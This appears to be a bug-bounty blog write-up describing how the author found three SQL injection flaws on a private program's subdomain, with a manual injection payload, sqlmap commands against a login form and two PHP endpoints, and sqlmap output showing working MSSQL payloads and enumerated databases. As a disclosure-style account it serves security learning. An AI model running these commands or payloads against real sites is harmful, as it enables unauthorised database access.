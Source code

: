 ```yaml
---
date: 2021-10-23 23:48:05
layout: post
title: How i Got 3 SQL injection in just 10 minutes
subtitle: How i Got 3 SQL injection in just 10 minutes
description: >-
  in this blog i've explained how i've found 3 sql injection in just 10 minutes
image: https://1.bp.blogspot.com/-kffR9cHu9Mg/WETBF5pCNdI/AAAAAAAAAfI/4Pm_Dc0rdbkn3YHbNrM0MAMTKheTJmokgCEw/s1600/sqlinjection2.png
optimized_image: https://1.bp.blogspot.com/-kffR9cHu9Mg/WETBF5pCNdI/AAAAAAAAAfI/4Pm_Dc0rdbkn3YHbNrM0MAMTKheTJmokgCEw/s1600/sqlinjection2.png
category: web security
tags:
  - web security
  - sql injection
  - bug hunting
  - hackerone
author: Ahmed Fatouh
paginate: true
---
```


> **Hello friends, in this writeup i will tell you how i found a 3 easy sqli in a priv program, let's say the program domain is `example.com`.**

> **after enumerating the subdomains i've found a delicious one which have a login page and this subdoamin working with PHP 7 and windows server, let's take a look.**

![](https://i.ibb.co/zHGTj6Z/1.png)

* **you can know what is the technology which the website use by wappalyzer**.

> **as we know this website using `PHP` so let's inject a single qute in a username field.**

> **it's sqlmap time, i see this is basic error based sqli so let's try with `sqlmap`.**

> **Put a `'` in any field of the login page and intercept the request with burpsuite, and save the request in a file like this.**

> **i did it manualy with this payload `admin'SELECT+1,@@VERSION,3--` and its gave me the version but i want to play with sqlmap.**
> ![](https://i.ibb.co/34dv4nC/3.png)

> **`sqlmap -r req.txt --batch --dbms=mssql --level 5 --risk 3 --dbs `**

![](https://i.ibb.co/rZQZ2NN/4.png)
![](https://i.ibb.co/q52Pwjd/5.png)

* **nice!, we got first sql injection, lets dig more.**

> **when doing some recon i've found another endpoint called `getimage.php`, you can find it with `ffuf,dirbuster,dirb`. and in this endpoint their is a Parameter called `id` and this paramtere injectable!.**

> **browse the `getimage` endpoint and send the request to repeater, and use `Param Miner` extension.**
 
![](https://i.ibb.co/vvCyDzW/6.png)

![](https://i.ibb.co/12wJ8g8/7.png)

![](https://i.ibb.co/XsmKm8R/8.png)

> **okay now we have `id` parameter, let's use sqlmap on this paramter.**

> **`sqlmap -u https://sub.ex.net/getimage.php\?id\=1 --batch --dbms=mssql --level 5 --risk 3 --dbs`**

![](https://i.ibb.co/17S1Wgk/9.png)

![](https://i.ibb.co/3TH0tx1/10.png)

* **nice!, we got the seconed one.**

> **cool, as the seconed step, i do the same thing and i've found andother endpoint called `downloads.php` and this endpoint has a parameter called `dir`.**

![](https://i.ibb.co/rZ19Y0b/12.png)

![](https://i.ibb.co/vktshRV/11.png)

> **`sqlmap -u https://sub.ex.net/downloads.php\?dir\=a --batch --dbms=mssql --level 5 --risk 3 --dbs`**

```ruby

Parameter: dir (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: id=1 AND 3913=(SELECT (CASE WHEN (3913=3913) THEN 3913 ELSE (SELECT 1391 UNION SELECT 8467) END))-- bPfy

    Type: error-based
    Title: Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)
    Payload: id=1 AND 7962 IN (SELECT (CHAR(113)+CHAR(113)+CHAR(118)+CHAR(122)+CHAR(113)+(SELECT (CASE WHEN (7962=7962) THEN CHAR(49) ELSE CHAR(48) END))+CHAR(113)+CHAR(112)+CHAR(122)+CHAR(112)+CHAR(113)))

    Type: stacked queries
    Title: Microsoft SQL Server/Sybase stacked queries (comment)
    Payload: id=1;WAITFOR DELAY '0:0:5'--

    Type: time-based blind
    Title: Microsoft SQL Server/Sybase time-based blind (IF)
    Payload: id=1 WAITFOR DELAY '0:0:5'
---
[15:49:30] [INFO] testing Microsoft SQL Server
[15:49:30] [INFO] confirming Microsoft SQL Server
[15:49:30] [INFO] the back-end DBMS is Microsoft SQL Server
web server operating system: Windows 2016 or 2019 or 10
web application technology: PHP 7.4.14, Microsoft IIS 10.0
back-end DBMS: Microsoft SQL Server 2019
[15:49:30] [INFO] fetching database names
[15:49:30] [INFO] resumed: 'DBAUtils'
[15:49:30] [INFO] resumed: 'master'
[15:49:30] [INFO] resumed: 'model'
[15:49:30] [INFO] resumed: 'msdb'
[15:49:30] [INFO] resumed: 'xxxxx'
[15:49:30] [INFO] resumed: 'tempdb'
available databases [6]:
[*] DBAUtils
[*] master
[*] model
[*] msdb
[*] xxxxx
[*] tempdb

```

* **nice!, we got the third one.**

* **Thanks for reading.**

* **cheers!.**

